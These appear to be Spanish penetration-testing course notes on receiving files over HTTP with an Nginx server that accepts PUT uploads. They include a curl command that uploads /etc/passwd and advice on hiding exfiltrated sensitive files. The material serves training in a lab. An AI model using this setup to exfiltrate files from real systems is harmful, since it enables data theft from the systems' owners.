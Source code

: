# Catching Files over HTTP/S

## HTTP/S

La transferencia de archivos a través de la web es el método más común debido a que los protocolos **HTTP/HTTPS** son los más frecuentemente permitidos a través de firewalls. Un beneficio significativo es que, en muchos casos, el archivo estará cifrado durante el tránsito. En una prueba de penetración, no hay nada peor que una IDS de red del cliente detecte que se ha transferido un archivo sensible en texto plano y que te pregunten por qué enviamos una contraseña a nuestro servidor en la nube sin usar cifrado.

Ya hemos discutido el uso del módulo **uploadserver** de **Python3** para configurar un servidor web con capacidades de carga, pero también podemos usar **Apache** o **Nginx**. Esta sección cubrirá cómo crear un servidor web seguro para operaciones de carga de archivos.

## Nginx - Habilitando PUT

Una buena alternativa a **Apache** para transferir archivos es **Nginx**, ya que su configuración es menos complicada y el sistema de módulos no conduce a problemas de seguridad como puede ocurrir con Apache.

Cuando se permiten cargas HTTP, es crítico asegurarse al 100% de que los usuarios no puedan subir **web shells** y ejecutarlos. Apache facilita cometer este error, ya que el módulo PHP ejecuta cualquier cosa que termine en PHP. Configurar Nginx para usar PHP no es tan sencillo.

### **Crear un Directorio para Manejar Archivos Subidos**

```bash
sherlock28@htb[/htb]$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

### **Cambiar el Propietario a www-data**

```bash
sherlock28@htb[/htb]$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

### **Crear Archivo de Configuración para Nginx**

Crear el archivo de configuración de Nginx en `/etc/nginx/sites-available/upload.conf` con el siguiente contenido:

```bash
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

### **Crear un Enlace Simbólico a sites-enabled**

```bash
sherlock28@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

### **Iniciar Nginx**

```bash
sherlock28@htb[/htb]$ sudo systemctl restart nginx.service
```

Si recibimos mensajes de error, debemos revisar los registros en `/var/log/nginx/error.log`. Si estamos usando **Pwnbox**, veremos que el puerto 80 ya está en uso.

### **Verificación de Errores**

```bash
sherlock28@htb[/htb]$ tail -2 /var/log/nginx/error.log

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:80 failed (98: Address already in use)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()
```

Verificar qué servicio está utilizando el puerto 80:

```bash
sherlock28@htb[/htb]$ ss -lnpt | grep 80

LISTEN 0      100          0.0.0.0:80        0.0.0.0:*    users:(("python",pid=2811,fd=3),("python",pid=2070,fd=3),("python",pid=1968,fd=3),("python",pid=1856,fd=3))
```

Verificar el proceso:

```bash
sherlock28@htb[/htb]$ ps -ef | grep 2811

user65      2811    1856  0 16:05 ?        00:00:04 python -m websockify 80 localhost:5901 -D
root        6720    2226  0 16:14 pts/0    00:00:00 grep --color=auto 2811
```

Vemos que ya hay un módulo utilizando el puerto 80. Para solucionarlo, podemos eliminar la configuración predeterminada de Nginx que vincula el puerto 80.

### **Eliminar la Configuración Predeterminada de Nginx**

```bash
sherlock28@htb[/htb]$ sudo rm /etc/nginx/sites-enabled/default
```

Ahora podemos probar la carga de archivos utilizando **cURL** para enviar una solicitud **PUT**. En el siguiente ejemplo, subiremos el archivo `/etc/passwd` al servidor y lo llamaremos `users.txt`.

### **Subir un Archivo Usando cURL**

```bash
sherlock28@htb[/htb]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

Verificar la subida del archivo:

```bash
sherlock28@htb[/htb]$ sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt

user65:x:1000:1000:,,,:/home/user65:/bin/bash
```

***

Una vez que esto esté funcionando, una buena prueba es asegurarse de que la lista de directorios no esté habilitada navegando a [**http://localhost/SecretUploadDirectory**](http://localhost/SecretUploadDirectory). De forma predeterminada, con **Apache**, si accedemos a un directorio sin un archivo **index** (index.html), listará todos los archivos. Esto es peligroso cuando estamos exfiltrando archivos sensibles, ya que queremos ocultarlos lo mejor posible. Afortunadamente, Nginx no habilita esta función de manera predeterminada.

## Uso de Herramientas Incorporadas

En la siguiente sección, introduciremos el tema de "Living off the Land", o el uso de herramientas incorporadas en Windows y Linux para realizar actividades de transferencia de archivos. Volveremos a este concepto en varios módulos del camino de Penetration Tester, cuando cubramos tareas como la escalada de privilegios en Windows y Linux, y la enumeración y explotación de **Active Directory**.
